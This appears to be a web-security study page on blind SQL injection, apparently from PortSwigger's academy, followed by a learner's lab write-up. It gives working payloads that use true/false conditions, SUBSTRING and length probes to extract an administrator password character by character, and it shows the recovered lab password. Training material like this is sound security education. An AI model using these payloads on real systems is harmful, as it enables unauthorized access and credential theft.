 
## Blind SQL injection

In this section, we describe techniques for finding and exploiting blind SQL injection vulnerabilities.


## What is blind SQL injection?

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as `UNION` attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.


## Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.


## Exploiting blind SQL injection by triggering conditional responses - Continued

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

`…xyz' AND '1'='1 …xyz' AND '1'='2`

- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

## Exploiting blind SQL injection by triggering conditional responses - Continued

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the `Administrator` user.

#### Note

The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).



---
---

## Lab: Blind SQL injection with conditional responses

PRACTITIONER

LABNot solved

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


----
----

## Conclusion


video: https://youtu.be/LBG_n9fr8sM





guessed sql query
->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp'

# Checking if blind sql exist or not.

we should get different response for the following query

->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp 'and 1=1 --'
Response = welcome back

->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp 'and 1=2 --'
Response = No welcome back 

`which means the web app is vulnreable to blind sql `


# checking if users table exist or not.


->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp 'and (select 'x' from users limit 1) = 'x' --
Response = welcome back

`which means users table is present`


# checking if username `administrator` exist in users table

 ->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp 'and (select username from users where username = 'administrator') = 'administrator' --

Response = welcome back

`which means table users contains username administrator`


# finding length of the password

 ->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp'and (select username from users where username = 'administrator' and length(Password) >0)='administrator' -- '

`we loop this until the response is different`

using burpsuite intruder we found the lenght of password to be=  20

# finding the password


->> select trackind_id from tracking_table where tracking_id = '2QnkloiTuma4Usgp'and (select substring(password,1,1) from users where username ='administrator') = 'a' --'

`no match, now using burp we loop this process to find the correct password`

using burp

`password was` : 

123456789 10 11 12 13 14 15 16 17 18 19 20
cvxpii3b6k10d5j3bjoh


cvxpii3b6k10d5j3bjoh
























